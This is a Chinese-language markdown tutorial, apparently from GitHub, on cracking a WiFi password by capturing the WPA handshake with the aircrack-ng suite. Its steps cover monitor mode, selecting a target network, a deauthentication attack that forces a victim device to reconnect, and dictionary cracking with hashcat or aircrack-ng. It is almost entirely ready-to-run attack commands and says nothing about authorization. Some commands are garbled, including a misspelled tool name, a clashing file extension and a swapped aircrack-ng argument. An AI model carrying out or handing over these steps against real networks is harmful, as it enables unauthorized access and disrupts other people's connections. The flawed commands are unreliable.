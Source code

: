 # 通过握手包获取 WiFi 密码

1. 查看網絡設備, 獲取無線網卡名稱.

   ```bash
   iwconfig
   ```

2. 開啓無線網卡監聽模式.

   ```bash
   sudo airmon-ng start wlan0
   ```

   開啓監聽模式後, 無線網卡名稱發生改變.  後面會附加`mon`(monitor), 即`wlan0mon`.
   **注意**: 監聽模式開啓後的無線網卡將無法訪問 Internet, 直到監聽模式被關閉.

3. 監聽 WiFi 信號.

   ```bash
   sudo airodunp-ng wlan0mon
   ```
   
   當發現目標 WiFi 時按`Ctrl+C`停止掃描. 並記錄 BSSID 和 CH 兩個參數.

4. 捕獲指定 WiFi 通信內容.

   ```bash
   sudo airodump-ng -w [.cap存檔名稱] -c [CH] --bssid [BSSID] wlan0mon
   ```

5. 斷開指定設備與指定 WiFi 的鏈接.

   ```bash
   sudo aireplay-ng -0 5 -a [BSSID] -c [Target MAC] wlan0mon
   ```

   目標設備從指定 WiFi 斷開鏈接後將嘗試重連, 會向路由器發送握手包. 而第4步將會捕獲這個握手包.

6. 當第4步提示捕獲握手包時按下`Ctrl+C`結束監聽.

   此時, 握手包的數據已經被記錄在第4步指定的`.cap`文件中.

7. 對`.cap`文件中握手包的hash進行破解.

   - 使用 Hashcat. (推薦)

      ```bash
      aircrack-ng [.cap存檔文件] -j [.haccpx文件]   # 將 .cap 文件轉爲 hashcat 接受的 .haccpx 文件
      hashcat -m 2500 -a 0 [.hccapx文件] [字典文件] # 利用 hashcat 進行破解
      ```

   - 使用 aircrack-ng.

      ```bash
      aircrack-ng -w [.cap存檔文件] [字典文件]
      ```

8. 關閉無線網卡監聽模式.

   ```bash
   sudo airmon-ng stop wlan0mon
   ```
